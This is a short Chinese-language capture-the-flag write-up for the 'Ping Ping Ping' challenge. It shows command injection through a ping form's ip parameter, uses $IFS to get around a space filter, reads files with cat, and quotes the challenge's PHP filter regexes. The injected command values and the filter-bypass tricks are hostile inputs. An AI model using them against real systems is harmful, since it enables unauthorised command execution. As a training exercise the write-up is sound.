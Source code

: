 # [GXYCTF 2019]Ping Ping Ping

打开后显示`/?ip=`

```
/?ip=127.0.0.1
```

PING 127.0.0.1 (127.0.0.1): 56 data bytes

```
/?ip=127.0.0.1;ls
```

PING 127.0.0.1 (127.0.0.1): 56 data bytes

flag.php

index.php

## 尝试读取flag.php

```
/?ip=127.0.0.1;;echo flag.php
```

/?ip= fxck your space!

过滤了空格

## 绕过空格

需要空格绕过的解决方案 `$IFS`

```
$IFS
${IFS}
$IFS$9
```



```
/?ip=127.0.0.1;cat$IFSflag.php
```

/?ip= fxck your flag!

flag也被过滤了

## 读取index.php

```
/?ip=127.0.0.1;cat$IFS$9index.php
```

得到index.php源码，过滤规则

```
/?ip=
PING 127.0.0.1 (127.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
```